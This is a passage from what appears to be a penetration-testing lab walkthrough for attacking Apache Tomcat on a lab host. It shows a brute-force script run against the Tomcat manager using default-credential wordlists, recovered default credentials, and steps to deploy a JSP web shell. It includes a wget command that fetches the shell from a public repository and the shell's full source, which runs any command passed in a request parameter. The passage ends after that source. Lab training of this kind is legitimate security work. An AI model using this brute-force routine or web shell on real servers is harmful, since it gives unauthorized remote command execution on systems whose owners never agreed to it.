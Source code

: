 * Found valid credentials: **tomcat** / **admin**

> **Tip**: If module behavior is unexpected, proxy via Burp/ZAP by setting  `set PROXIES HTTP:127.0.0.1:8080`.
> Inspect Authorization headers to confirm Base64 encoding of `username:password`.


### 🐍 Python Script Alternative

* **Usage**:

  ```
  python3 mgr_brute.py \
    -U http://web01.inlanefreight.local:8180/ \
    -P /manager \
    -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt \
    -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
  ```

## 2️⃣ WAR File Upload via Manager GUI

### 🔑 Prerequisite

* Valid **manager-gui** credentials (e.g., `tomcat:admin`).
* Access to `http://web01.inlanefreight.local:8180/manager/html`.


### 📝 Steps to Deploy a JSP Web Shell

1. **Download a simple JSP shell** (e.g., `cmd.jsp`):

   ```bash
   wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
   ```

   ```jsp
   <%@ page import="java.util.*,java.io.*"%>
   <HTML><BODY>
   <FORM METHOD="GET" NAME="myform">
     <INPUT TYPE="text" NAME="cmd">
     <INPUT TYPE="submit" VALUE="Send">
   </FORM>
   <pre>
   <%
     if (request.getParameter("cmd") != null) {
       Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
       BufferedReader in = new BufferedReader(new InputStreamReader(p.getInputStream()));
       String line = null;
       while ((line = in.readLine()) != null) {
         out.println(line);
       }
     }
   %>
   </pre>
   </BODY></HTML>
   ```
